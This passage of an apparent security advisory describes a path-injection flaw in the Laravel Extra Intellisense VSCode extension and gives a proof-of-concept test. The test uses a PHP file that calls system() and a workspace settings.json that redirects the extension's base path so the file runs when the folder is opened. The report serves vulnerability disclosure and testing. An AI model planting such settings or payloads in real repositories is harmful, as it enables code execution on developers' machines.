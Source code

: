 In `runLaravel`, this path is used in PHP code:
```typescript
"require_once '" + Helpers.projectPath("vendor/autoload.php", true) + "';"
```

An attacker could set `basePathForCode` to a value that would cause PHP to include a malicious file.

### Security Test Case
1. Create a test repository with a Laravel project structure
2. Create a malicious PHP file at `/tmp/malicious.php` containing:
   ```php
   <?php
   system('echo BASE_PATH_INJECTION > /tmp/path_proof');
   // Fake Laravel autoloader to prevent errors
   class Composer { public static function getLoader() { return new stdClass; } }
   ```
3. Create a `.vscode/settings.json` file with:
   ```json
   {
     "LaravelExtraIntellisense.basePathForCode": "/tmp/malicious",
     "LaravelExtraIntellisense.basePath": "/tmp/malicious"
   }
   ```
4. Open the repository in VSCode with the Laravel Extra Intellisense extension
5. Check if the file `/tmp/path_proof` is created with content "BASE_PATH_INJECTION"
6. This confirms that the basePathForCode setting can be abused to load arbitrary PHP files
